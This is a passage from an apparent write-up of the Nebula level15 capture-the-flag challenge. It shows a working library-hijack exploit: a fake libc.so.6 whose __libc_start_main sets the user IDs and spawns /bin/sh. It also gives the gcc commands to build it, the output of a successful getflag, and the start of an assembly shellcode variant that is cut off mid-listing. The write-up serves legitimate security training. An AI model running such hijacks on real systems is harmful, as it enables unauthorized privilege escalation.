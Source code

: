 There is an error, because we are linking using GLIBC_2.1.3, but in the binary, there are two symbols with GLIBC_2.0 undefined:
```
level15@nebula:/tmp$ nm /home/flag15/flag15  | grep ".*U"
         U __libc_start_main@@GLIBC_2.0
         U puts@@GLIBC_2.0
```

We provide version script to the linker, link statically and try the same thing again.

```
GLIBC_2.0   {};
```

```c
// libc.so.6.c
#include <stdio.h>

int __libc_start_main(int (*main) (int, char * *, char * *), int argc, char * * ubp_av, void (*init) (void), void (*fini) (void), void (*rtld_fini) (void), void (* stack_end)) { 
  setreuid(geteuid(),geteuid());
  execve("/bin/sh", NULL, NULL);

  return 0;
}
```

```
level15@nebula:/tmp$ gcc -shared -static-libgcc -Wl,--version-script=version.map,-Bstatic libc.so.6.c -o /var/tmp/flag15/libc.so.6

level15@nebula:/tmp$ /home/flag15/flag15 
flag15@nebula:/tmp$ getflag 
You have successfully executed getflag on a target account
```

The second way how to solve the challenge is without linking libc, writing assembler code. For this purpose we used [nasm](http://www.nasm.us/pub/nasm/releasebuilds/2.11.08/) 
assembler, everything needed for the compilation process was already on the nebula iso.

```
level15@nebula:/tmp$ wget -q http://www.nasm.us/pub/nasm/releasebuilds/2.11.08/nasm-2.11.08.tar.gz
level15@nebula:/tmp$ tar xzf nasm-2.11.08.tar.gz 
level15@nebula:/tmp$ cd nasm-2.11.08/
level15@nebula:/tmp/nasm-2.11.08$ ./configure && make ; cd ..
```

```asm
; shell.asm
section .data
cmd db '/bin/sh',0x0

section .text

global shell

shell:

;setreuid(geteuid(),geteuid());
mov eax, 49
int 0x80
mov ebx, eax
mov ecx, eax
mov eax, 70
int 0x80

;execve("/bin/sh", {"/bin/sh", NULL}, NULL)
mov eax, 11
lea ebx, [cmd]
```